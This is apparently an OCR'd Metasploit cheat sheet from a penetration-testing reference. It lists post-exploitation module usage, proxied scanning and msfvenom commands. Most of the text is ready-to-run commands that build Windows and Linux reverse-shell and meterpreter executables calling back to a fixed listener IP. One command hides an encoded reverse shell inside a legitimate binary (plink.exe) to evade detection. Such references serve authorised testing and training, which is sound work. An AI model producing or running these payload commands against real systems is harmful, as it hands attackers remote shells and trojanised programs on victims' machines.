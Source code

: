 ### use case: running post module
```
meterpreter> background
msf> use post/windows/gather/enum_domain
msf> set SESSION 1
msf> run
```

### use case: running Metasploit scan via socks proxy server (e.g. after ssh -D)

```
# Testing 135/tcp   open  msrpc (Microsoft Windows RPC):
setg Proxies socks4:127.0.0.1:1234
use auxiliary/scanner/dcerpc/endpoint_mapper
set RHOSTS <ip>
run
```

## Payloads

### Basic usage

```
# show payloads
msfvenom -l
# show formats
msfvenom --help-formats
# show payload options
msfvenom -p php/reverse_php --payload-options | less
```

### Common payloads

**Binaries**

    # Windows
    msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.30.68 LPORT=443 -f exe -o s.exe
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f exe -o s.exe
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.68 LPORT=443 -f exe -o s.exe

    # Linux 
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f elf -o mres
    msfvenom -p linux/x86/shell_reverse_tcp -f elf -o res LHOST='192.168.30.68' LPORT=443

    # injecting paylaod into existing binary
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.5 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
